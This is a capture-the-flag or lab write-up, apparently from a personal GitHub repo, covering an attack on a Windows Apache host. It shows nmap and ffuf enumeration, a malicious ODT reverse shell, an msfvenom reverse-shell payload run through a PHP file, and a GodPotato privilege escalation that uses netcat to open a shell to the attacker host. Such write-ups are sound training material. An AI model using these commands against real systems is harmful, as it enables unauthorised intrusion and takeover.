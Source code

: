 #Pwned! 
```IP
192.168.229.169
```
# Enumeration
Its blocking pings
```
sudo nmap -sCV 192.168.229.169 -vvv -oA enum/nmap.full -p- -Pn
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121102019.png?raw=true)
It is a Windows machine most likely running an Apache httpd 2.4.48 on port 80
## HTTP 80
```
ffuf -u http://192.168.229.169/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121095928.png?raw=true)
Submiting php
File is not valid. Please submit ODT file
# Exploitation
creation of a malicious file

https://github.com/0bfxgh0st/MMG-LO/blob/main/mmg-odt.py
```
python mmg-odt.py windows 192.168.45.190 80
```
we upload the file.odt and
we get the reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121115800.png?raw=true)
# PrivEsc

## Manual
SYSTEMINFO
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121120038.png?raw=true)
LISTENING PORTS
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121120211.png?raw=true)
SOFTWARE
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121120256.png?raw=true)

SERVICES
```
ResumeService1         Running C:\Program Files\nssm-2.24\win64\nssm.exe
ApacheHTTPServer       Running "C:\Xampp\apache\bin\httpd.exe" -k runservice
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121122954.png?raw=true)
we can upload files to C:\xampp\htdocs\
we craft a shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f exe -o shell.exe
```
we craft a run.php file
```
<?php $exec = system('shell.exe', $val) ?>
```
we copy both files to C:\xampp\htdocs\
and run run.php which will run shell.exe
we are apache with SeImpersonatePrivilege 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121132253.png?raw=true)
```
.\GodPotato-NET4.exe -cmd ".\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.190 1234"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121132809.png?raw=true)

## Automated

### Peass
```
File: C:\Program Files (x86)\Common Files\Java\Java Update\jusched.exe (Unquoted and Space detected) - C:\
```
### Mimikatz

# Lateral Movement

